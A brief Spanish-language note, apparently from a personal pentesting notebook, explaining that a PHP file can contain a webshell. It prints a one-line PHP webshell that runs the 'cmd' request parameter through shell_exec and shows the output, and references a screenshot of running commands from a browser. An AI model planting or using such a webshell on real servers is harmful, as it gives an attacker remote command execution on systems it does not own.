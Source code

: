Podemos tener dentro de nuestro php una webshell:
```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Y desde el navegador ejecutaríamos comandos de la siguiente forma:
![[Pasted image 20231216164302.png]]
